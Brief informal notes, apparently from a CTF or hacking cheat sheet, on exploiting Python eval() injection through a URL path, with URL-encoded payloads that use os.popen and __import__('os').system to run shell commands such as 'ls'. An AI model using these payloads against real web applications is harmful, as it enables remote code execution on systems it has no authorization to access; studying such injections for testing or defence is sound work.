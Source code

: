 ### Eval used?:
`/hello/"%2bos.popen('ls').read()%2b"`  
_what if there is no system module??_    We IMPORT it :D    **__import__('os').system('ls')**  
If you are grappling with erros, try t run your commands in a python terminal and see if it works
Example of the above to points:  
`hello/ddd"%2bstr(__import__('os').system('ls'))%2b"`  

Above we can see that the os module has been imported as well as tthe command being evaluated as a string, as python was trying too eval as an int
